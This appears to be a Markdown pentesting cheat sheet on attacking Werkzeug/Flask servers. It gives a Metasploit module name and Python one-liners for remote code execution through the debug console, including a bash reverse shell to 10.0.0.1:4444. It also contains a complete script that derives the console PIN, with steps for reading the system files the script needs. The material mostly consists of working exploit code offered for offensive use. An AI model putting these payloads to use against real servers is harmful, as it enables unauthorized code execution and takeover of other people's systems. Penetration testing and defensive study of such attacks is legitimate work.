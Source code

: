 ```yaml
---
title: Werkzeug Pentesting
description: Werkzeug is a comprehensive WSGI web application library that is commonly used for Flask web application.
tags:
    - Remote Code Execution
    - Web
refs:
    - https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug
date: 2024-01-18
draft: false
---
```


## SSTI

Please see [Flask Jinja2 SSTI](/exploit/web/framework/python/flask-jinja2-pentesting/)

<br />

## Remote Code Execution (RCE) in Console

### Metasploit

```sh
msfconsole
msf> use exploit/multi/http/werkzeug_debug_rce
```

### Manual Exploitation

If we can access to `/console` page, we may be able to execute RCE.

```py
__import__('os').popen('whoami').read();
import os; print(os.popen("whoami").read())

# Reverse shell
__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"').read()
```

<br />

## Console PIN Exploit

Reference: [https://www.daehee.com/werkzeug-console-pin-exploit/](https://www.daehee.com/werkzeug-console-pin-exploit/)

Prepare the Python payload for getting the PIN code in the `console` page.

```py
# get_pin.py
import hashlib
from itertools import chain

probably_public_bits = [
    'user',
    'flask.app',
    'Flask',
    '/usr/local/lib/python3.5/dist-packages/flask/app.py'
]

private_bits = [
    '279275995014060',
    'd4e6cb65d59544f3331ea0425dc555a1'
]

h = hashlib.sha1() # or hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

As above, we need to set values in the `probably_public_bits` and the `private_bits`.

```py
probably_public_bits = [
    'user',             # 1.
    'flask.app',        # 2.
    'Flask',            # 3.
    '/usr/local/lib/python3.5/dist-packages/flask/app.py' # 4.
]

private_bits = [
    '279275995014060',                  # 5.
    'd4e6cb65d59544f3331ea0425dc555a1'  # 6.
]
```

1. The username who starts the flask server. For example, we may find it in `/etc/passwd`.
2. The module name e.g. `flask.app`.
3. The application name e.g. `Flask`. (`getattr(app, '__name__', getattr(app.__class__, '__name__'))`)
4. The absolute path for the `app.py` of the Flask in the Python packages. (`getattr(mod, '__file__', None)`)
5. The MAC address of the current computer. We can get the value in the `/sys/class/net/<device_id>/address`. To get the `device_id`, read the `Device` field in the `/proc/net/arp`. Additionally, the address needs to be converted from hex to decimal. For example, `12:34:56:78:9a:bc` → `123456789abc` → `20015998343868`. (`str(uuid.getnode()),  /sys/class/net/ens33/address`)
6. The machine ID. We can get the ID by reading `/etc/madhine-id`. Additionally, we need to concatenate it with the last value of the first line of `/proc/self/cgroup` separated by `/` (the value can be empty). For example,

```sh
# /proc/self/cgroup
15:name=systemd:/example.service
...
```

Assume the first line of the `/proc/self/cgroup` is as above. We have to put the value (`example.service`) after the machine ID as below:

```sh
# e.g. the machine ID is `0123456789abcdef0123456789abcdef`
0123456789abcdef0123456789abcdefexample.service
```

